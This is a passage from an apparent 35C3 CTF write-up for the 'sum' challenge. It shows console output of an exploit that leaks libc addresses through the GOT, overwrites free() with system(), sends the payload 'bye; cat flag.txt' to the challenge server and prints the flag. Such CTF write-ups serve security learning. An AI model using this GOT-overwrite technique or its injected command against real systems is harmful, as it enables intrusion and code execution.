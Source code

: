 The output:
```console
root@kali:/media/sf_CTFs/35c3ctf/sum# python exploit.py -r
[*] '/media/sf_CTFs/35c3ctf/sum/sum'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[*] '/media/sf_CTFs/35c3ctf/sum/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 35.207.132.47 on port 22226: Done
[*] puts() - GOT: 0x602028, PLT: 0x400740
[*] Getting value of address 0x602028
[*] Index 787461 has value 140311052597696 (0x7f9cb672b9c0)
[*] Runtime address of puts(): 0x7f9cb672b9c0
[*] LibC Base: 0x7f9cb66ab000
[*] free() GOT: 0x602018
[*] system() runtime address: 0x7f9cb66fa440
[*] Setting address 0x602018 to value 0x7f9cb66fa440
[*] Setting index 787459 to value 140311052395584
[*] Sending payload: bye; cat flag.txt
[+] Receiving all data: Done (68B)
[*] Closed connection to 35.207.132.47 port 22226
sh: 1: bye: not found
35C3_346adfac5fdfa6b65e103de62310bcf2d7606729
```

The flag: 35C3_346adfac5fdfa6b65e103de62310bcf2d7606729